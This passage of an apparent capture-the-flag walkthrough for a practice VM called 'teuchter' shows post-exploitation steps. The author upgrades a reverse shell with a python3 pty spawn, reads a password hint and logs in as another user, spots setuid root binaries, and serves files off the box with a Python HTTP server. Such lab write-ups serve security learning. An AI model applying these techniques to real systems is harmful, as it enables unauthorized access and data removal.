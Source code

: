 We have a reverse shell, but it's very limited. The usual Python shell spawning didn't work, because on the box there's actually Python 3. Which only changes things slightly: <code>python3 -c "import pty; pty.spawn('/bin/bash');"</code>

``` 
python3 -c "import pty; pty.spawn('/bin/bash');"
www-data@teuchter:/var/www/html/flicks$ ls /home
ls /home
cpgrogan  jkerr  proclaimers
```

Inside cpgrogan there's a kochanski directory that we're not permitted to view. In jkerr's home there's an empty .sudo_as_admin_successful file, but we find a hint about jkerr's password:

``` 
www-data@teuchter:/home/jkerr$ cat login.txt
cat login.txt
Jim,

Ah decided to rename yer account to jkerr and reset the password
ye'll find it in the photo. Just remember the decode password
dosn't have a space.

If ye can't figure it out, it's the new name for Jonny & the
Self-Abusers...
```

And inside proclaimers there are 2 directories. We can't enter 500miles, but inside letterfromamerica there are 2 interesting files belonging to root:

``` 
www-data@teuchter:/home/proclaimers/letterfromamerica$ ls -alh
ls -alh
total 164K
drwxr-xr-x 2 proclaimers proclaimers 4.0K Aug 11  2016 .
drwxr-xr-x 5 proclaimers proclaimers 4.0K Sep 23  2016 ..
-rwsr-xr-x 1 root        root        151K Aug 11  2016 semaphore
-r-Sr-sr-t 1 root        root          42 Jul  9  2016 test
``` 

Inside test there is some kind of message, stating that "So Claire was right about those wildcards", and semaphore is an executable. Running it gives a shell under the same user account. Probably need more information (or Irn-Bru) before exploiting this.

Back to the next step, did a su to jkerr and used *breakfastclub* as a password and it worked! Ah used Python to transfer the images to my machine and broke my shell in the process:

``` 
jkerr@teuchter:~$ python3 -m http.server 8080
python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 ...
192.168.145.129 - - [13/Oct/2018 18:33:23] "GET / HTTP/1.1" 200 -
192.168.145.129 - - [13/Oct/2018 18:33:23] code 404, message File not found
192.168.145.129 - - [13/Oct/2018 18:33:23] "GET /robots.txt HTTP/1.1" 404 -
192.168.145.129 - - [13/Oct/2018 18:33:24] code 404, message File not found
192.168.145.129 - - [13/Oct/2018 18:33:24] "GET /favicon.ico HTTP/1.1" 404 -
192.168.145.129 - - [13/Oct/2018 18:33:24] code 404, message File not found
192.168.145.129 - - [13/Oct/2018 18:33:24] "GET /favicon.ico HTTP/1.1" 404 -
192.168.145.129 - - [13/Oct/2018 18:33:27] "GET /promisedyeamiracle.jpg HTTP/1.1" 200 -
192.168.145.129 - - [13/Oct/2018 18:33:29] "GET /breakfastclub.jpg HTTP/1.1" 200 -
```
